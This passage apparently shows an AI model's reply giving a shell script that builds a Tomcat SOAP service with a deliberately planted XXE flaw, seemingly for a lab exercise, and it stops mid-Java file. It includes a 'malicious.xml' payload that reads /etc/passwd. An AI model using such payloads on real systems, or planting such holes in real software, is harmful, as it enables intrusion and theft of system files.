 Certainly! Below is a shell script (`setup_complex_server.sh`) that creates a Google Cloud instance with a fully updated and patched environment. It hosts a web application with a subtle and hard-to-find vulnerability: an **XML External Entity (XXE) injection** in a SOAP web service. This vulnerability is difficult to detect and requires a deep understanding of XML parsing and security.

```bash
#!/bin/bash

mkdir attack-4-tomcat
cd attack-4-tomcat

# Solution Files
cat <<'EOF' > simple.xml
<?xml version="1.0" encoding="UTF-8"?>
<root>Hello World</root>
EOF

cat <<'EOF' > malicious.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ELEMENT root ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>&xxe;</root>
EOF

# Create the startup script
cat <<'EOF' > startup-script.sh
#!/bin/bash
sudo apt-get update
sudo apt-get upgrade -y

# Install necessary packages
sudo apt-get install -y openjdk-11-jdk tomcat9 ant

# Secure Tomcat configuration
sudo sed -i 's/port="8080"/port="80"/' /etc/tomcat9/server.xml
sudo sed -i 's/redirectPort="8443"/redirectPort="443"/' /etc/tomcat9/server.xml

# Create a user for Tomcat (best practice)
sudo useradd -m -U -d /opt/tomcat -s /bin/false tomcat

# Deploy the web application
sudo mkdir -p /var/lib/tomcat9/webapps/ROOT/WEB-INF/classes/com/example

sudo tee /var/lib/tomcat9/webapps/ROOT/WEB-INF/web.xml > /dev/null <<'EOWEBXML'
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" version="3.1">
  <servlet>
    <servlet-name>SOAPService</servlet-name>
    <servlet-class>com.example.SOAPService</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>SOAPService</servlet-name>
    <url-pattern>/SOAPService</url-pattern>
  </servlet-mapping>
</web-app>
EOWEBXML

sudo tee /var/lib/tomcat9/webapps/ROOT/WEB-INF/classes/com/example/SOAPService.java > /dev/null <<'EOSOAPSERVICE'
package com.example;

import javax.servlet.*;
import javax.servlet.http.*;
```